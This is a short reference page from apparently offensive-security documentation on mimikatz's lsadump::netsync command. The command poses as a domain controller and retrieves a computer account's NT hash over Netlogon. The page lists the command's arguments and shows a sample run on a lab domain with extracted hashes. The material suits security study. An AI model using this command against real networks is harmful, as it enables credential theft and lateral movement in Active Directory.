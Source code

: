 # netsync

`lsadump::netsync` can be used to act as a Domain Controller on a target by doing a [Silver Ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets#silver-ticket). It then leverages the [Netlogon](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) to request the RC4 key (i.e. NT hash) of the target computer account. It has the following command line arguments:

* `/dc`: The FQDN of the domain controller
* `/user`: the machine account of the domain controller
* `/ntlm`: the NT hash of the domain controller's machine account
* `/account`: the `SamAccountName` of the computer account to target

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

```
mimikatz # lsadump::netsync /dc:dc.hacklab.local /user:dc$ /ntlm:5b7ba7b6131a4aab1bbd60ba1a810e53 /account:win7$
  Account: win7$
  NTLM   : 86e5ae81e1fcae2164a7c247af54e148
  NTLM-1 : 31d6cfe0d16ae931b73c59d7e0c089c0
```
